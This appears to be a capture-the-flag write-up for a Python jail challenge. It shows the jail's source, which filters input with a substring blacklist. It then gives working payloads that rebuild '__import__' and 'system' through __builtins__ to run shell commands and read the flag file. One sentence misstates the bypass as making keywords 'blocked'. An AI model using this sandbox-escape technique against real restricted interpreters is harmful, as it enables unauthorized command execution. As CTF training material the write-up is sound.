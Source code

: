 PRISON BREAK Cell 1 – 300 pts
Category: PyJail
Description:

This is just a PyJail

To connect:
nc 192.168.8.136 10014

Challenge Overview
The server accepts arbitrary Python input, but blacklists certain keywords before executing the payload via os.execv. The main idea is to execute arbitrary Python code within a restricted environment, i.e., a PyJail.

python
jail.py:
import os
import sys

confiscated_tools = ['os', 'import', 'flag', 'system']

hax = input("> ")
sys.stdin.close()

if len(hax) > 1024:
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        exit(1)

code = f"""
{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])

Blacklist & Execution
Blacklisted substrings: "os", "import", "flag", "system"


The input is injected into a dynamically constructed string and executed via:

python3 -c "<user_input>"
Any input containing blacklisted substrings gets rejected. Substring matching is used (if tool in hax), not full-word matching or regex. This makes it possible for "__import__" or even "syst" + "em" to be blocked, since "import" and "system" are substrings of those.


Exploitation Strategy
To bypass the jail, I used the following strategy:

Avoid all blacklisted substrings, even when they appear within larger words.

Dynamically reconstruct banned keywords like "import", "os", and "system" using string concatenation.

Use __builtins__ as a starting point to avoid using import directly.

Working Payloads
Step 1: List the directory to confirm the flag file

(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('ls')

Output:
flag.txt
run

Step 2: Read the flag
(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('cat 
flag.txt')

This bypasses the jail and prints the flag: CITU{th1s_1s_jus7_4n_ez_0n3_w4rd3n_1s_c4r3l3ss}










